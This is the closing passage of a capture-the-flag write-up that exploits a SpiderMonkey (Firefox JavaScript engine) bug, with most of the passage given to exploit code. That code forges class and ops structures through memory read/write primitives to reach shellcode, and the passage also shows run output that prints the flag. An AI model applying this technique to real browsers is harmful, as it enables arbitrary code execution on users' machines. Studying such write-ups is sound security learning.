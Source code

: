 ```js
    const fake_class = new BigUint64Array(48);
    const fake_class_buffer = read64(addrof(fake_class) + 0x30n);
    for (let i = 0; i < 6; i++) {
        fake_class[i] = read64(shellcode_class + BigInt(i) * 8n);
    }

    const fake_ops = new BigUint64Array(88);
    const fake_ops_buffer = read64(addrof(fake_ops) + 0x30n);
    for (let i = 0; i < 11; i++) {
        fake_ops[i] = read64(shellcode_ops + BigInt(i) * 8n);
    }

    fake_ops[0] = stage1_addr;
    fake_class[2] = fake_ops_buffer;
    write64(shellcode_base_shape, fake_class_buffer);

    shellcode.someprop = i2d(shellcode_data);
}

try {
    pwn();
} catch (e) {
    print(`Got exception: ${e}`);
}
```

```
$ python3 upload.py
[+] Opening connection to outfoxed.be.ax on port 37685: Done
[*] Switching to interactive mode
Enter exploit followed by EOF: 
[GFX1-]: glxtest: libpci missing
[GFX1-]: glxtest: libGL.so.1 missing
[GFX1-]: glxtest: libEGL missing
[GFX1-]: No GPUs detected via PCI
[GFX1-]: RenderCompositorSWGL failed mapping default framebuffer, no dt
corctf{just_4_b4by_f0x}
[*] Interrupted
[*] Closed connection to outfoxed.be.ax port 37685
```

## Conclusion

In this challenge we exploited a bug in SpiderMonkey to gain arbitrary native
code execution. I had never worked with Firefox before so this was a nice change
from the usual Chrome challenges and at the same time it shows how similar the
various JS engines are. Thanks to the author for writing this!